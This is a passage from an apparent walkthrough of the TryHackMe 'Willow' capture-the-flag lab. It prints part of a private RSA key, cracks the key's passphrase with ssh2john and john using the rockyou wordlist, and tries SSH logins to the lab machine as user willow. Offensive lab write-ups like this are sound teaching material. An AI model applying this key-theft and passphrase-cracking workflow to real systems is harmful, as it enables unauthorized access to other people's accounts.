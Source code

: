 ```bash
/+5Nf8423Dy/iAhSWAjoZD3BdkLnfbji1g4dNrJnqHnoZaZxvxs0qQEi/NcOEm4e
W0pyDdA8so0zkTTd7gm6WFarM7ywGec5rX08gT5v3dDYbPA46LJVprtA+D3ymeR4
l3xMq6RDfzFIFa6MWS8yCK67p7mPxSfqvC5NDMONQ/fz+7fO3/pjKBYZYLuchpk4
TsH6aY4QbgnEMuA+Errb/uf/5MAhWDMqLBhi42kxaXZ1e3ZMz2penCZFf/nofbLc
-----END RSA PRIVATE KEY-----  
```

And bang!, we decrypted that Private SSH key. Save that in a file named id_rsa in our woking directory and then give it permission 600.

```bash
┌──(ghost㉿kali)-[~/tryhackme/willow]
└─$ chmod 600 id_rsa
```

---

### Shell as Willow

Now, looks like we can ssh into willow’s account with these private key. Let’s check!

```bash
┌──(ghost㉿kali)-[~/tryhackme/willow]
└─$ ssh -i id_rsa willow@10.10.180.173                                                   
The authenticity of host '10.10.180.173 (10.10.180.173)' can't be established.
ED25519 key fingerprint is SHA256:magOpLj2XlET5C4pPvsDHoHa4Po1iJpM2eNFkXQUZ2I.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:21: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.180.173' (ED25519) to the list of known hosts.
Enter passphrase for key 'id_rsa': 
```

Nope!, this file is password protected, so we can crack them via ssh2john, not a big deal right?

```bash
┌──(ghost㉿kali)-[~/tryhackme/willow]
└─$ ssh2john id_rsa > pass.hash

┌──(ghost㉿kali)-[~/tryhackme/willow]
└─$ john pass.hash --wordlist=/usr/share/wordlists/rockyou.txt
......

┌──(ghost㉿kali)-[~/tryhackme/willow]
└─$ john pass.hash --show
id_rsa:wildflower
```

Now, as we grabbed that passphrase , let’s again try to log in to willow’s account

```bash
┌──(ghost㉿kali)-[~/tryhackme/willow]
└─$ ssh -i id_rsa willow@10.10.180.173
Enter passphrase for key 'id_rsa': 
sign_and_send_pubkey: no mutual signature supported
willow@10.10.180.173's password: 
```
